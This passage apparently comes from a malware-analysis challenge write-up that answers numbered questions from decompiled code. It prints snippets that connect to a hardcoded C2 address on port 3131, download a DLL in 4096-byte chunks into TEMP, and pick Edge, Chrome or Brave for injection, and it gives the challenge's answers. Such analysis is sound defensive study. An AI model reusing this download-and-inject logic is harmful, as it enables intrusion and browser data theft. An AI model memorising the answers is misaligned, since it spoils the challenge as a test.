 > type = 1 → SOCK_STREAM

> protocol = 0 → Default for SOCK_STREAM, which is TCP
- setup C2
```bash
*(_DWORD *)&v218.sa_data[2] = inet_addr("185.107.74.40");
*(_WORD *)v218.sa_data = htons(0xC3Bu); // Port 0xC3B = 3131
```

**TCP**

## 4. What is the port number used by the malware to connect to the C2 server in decimal?
```bash
*(_WORD *)v218.sa_data = htons(0xC3Bu); // Port 0xC3B = 3131
```

**3131**

## 5. What is the maximum chunk size the malware uses to download the injected DLL in hex?
```bash
getenv("TEMP");
  sub_14000FAE0(v221, "%s\\received_dll.dll");
  v211 = 0;
  if ( recv(v199, (char *)&v211, 4, 0) == 4 )
  {
    v211 = ntohl(v211);
    if ( v211 - 1 <= 0x5F5E0FE )
    {
      v13 = 0;
      v14 = fopen(v221, "wb");
      if ( v14 )
      {
        while ( v13 < v211 )
        {
          v15 = v211 - v13;
          if ( v211 - v13 > 0x1000 )
            v15 = 4096;
          v16 = recv(v199, (char *)&v239, v15, 0);
          if ( v16 <= 0 )
            break;
          v13 += v16;
          fwrite(&v239, 1ui64, v16, v14);
```
- Remain bytes will be compared to 0x1000 (4096 bytes), if it's greater, then fixed it to 4096, then the maximum chunk size is 4096 bytes

**0x1000**

## 6. What is the address of the function responsible for launching browsers for injection in hex ?
```bash
while ( 1 )
            {
              while ( 1 )
              {
                v28 = L"msedge.exe";
                if ( strcmp(v203, "edge") )
                {
                  v28 = L"chrome.exe";
                  if ( !strcmp(v203, "brave") )
                    v28 = L"brave.exe";
                }
                Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0);
```